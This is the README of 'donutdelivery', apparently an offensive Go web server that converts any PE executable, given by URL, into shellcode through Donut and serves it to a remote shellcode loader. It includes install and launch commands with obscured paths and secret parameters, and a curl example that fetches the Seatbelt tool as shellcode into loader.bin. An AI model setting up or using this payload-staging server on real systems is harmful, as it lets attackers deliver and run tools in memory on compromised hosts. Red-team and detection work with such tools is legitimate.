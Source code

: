 ## Description

This is a simple webserver that integrates with [Donut](https://github.com/TheWover/donut) using Binject's [go-donut](https://github.com/Binject/go-donut) and delivers shellcode given a particular (PE) .exe URL - sent as a GET parameter. 

Ideally used with your custom shellcode loader, you can make it arbitrarily load any [Donutable](https://github.com/Flangvik/SharpCollection) PE by remotely requesting its shellcode and merely providing the tool name.

## How to use

```bash
go install github.com/mariolima/donutdelivery@latest
donutdelivery  -l '127.0.0.1:8087' -path '/secretdonutpath' -up 'urlsecretparam' -sp 'argssecretparam'

curl http://127.0.0.1:8087/secretdonutpath?urlsecretparam=https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/Seatbelt.exe&argssecretparam=antivirus > loader.bin
```

## Help

```
Usage of donutdelivery:
  -l string
    	The listening address of the server (default "127.0.0.1:8087")
  -path string
    	HTTP path to be used for donut delivery (default "/donut")
  -ap string
    	HTTP parameter where the comma separated PE arguments will be sent (default Random)
  -secret string
    	Secret to be sent in the requests along with the PE url (Authorization header if param not defined). 
        No authentication if not defined.
  -sp string
    	HTTP paramter where the secret will be sent (instead of Authorization token header)
  -up string
    	HTTP parameter where the PE url will be sent (default Random)
```
